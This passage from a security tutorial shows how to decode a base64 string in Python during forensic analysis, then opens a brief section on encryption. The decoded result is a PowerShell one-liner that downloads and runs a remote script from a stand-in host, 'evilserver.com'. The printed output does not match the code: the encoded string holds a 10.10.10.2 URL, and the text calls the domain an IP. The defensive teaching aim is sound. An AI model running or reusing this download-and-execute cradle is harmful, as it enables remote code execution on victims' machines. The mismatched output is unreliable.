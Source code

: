 On your Linux machine :

```sh
ipython3			# open ipython3 console
```

```python
import base64;

my_string = "YChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLlByb3h5LkNyZWRlbnRpYWxzPVtOZXQuQ3JlZGVudGlhbENhY2hlXTo6RGVmYXVsdE5ldHdvcmtDcmVkZW50aWFscztpd3IoJ2h0dHA6Ly8xMC4xMC4xMC4yL21hbGljaW91c19zY3JpcHQucHMxJyl8aWV4YA=="		
#the string in the command above

base64.b64decode(my_string).decode("utf8")
```

This results in:

```powershell
(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr(\'http://evilserver.com/malicious_script.ps1\')|iex
```

This is a popular PowerShell one-liner script that retrieves a remote payload, `malicious_script.ps1`, on a remote server, `evilserver.com`.

With this result you can immediately help secure your organization by putting this IP on detection and blocking it on your firewalls, while you continue your forensic analysis.





## Encryption

The goal of encryption is to transform the data in a way that only authorized entities (with a key or password) are able to decrypt and read the original content.

This is done by transforming readable information, *plaintext*, into unreadable information, *ciphertext*,  using an algorithm, *cipher*, in order to protect the information during communication.

There is two main encryption techniques: symmetric (or *secret key*) and asymmetric (or *public key*).

![Encryption](/assets/img/Encryption.png)
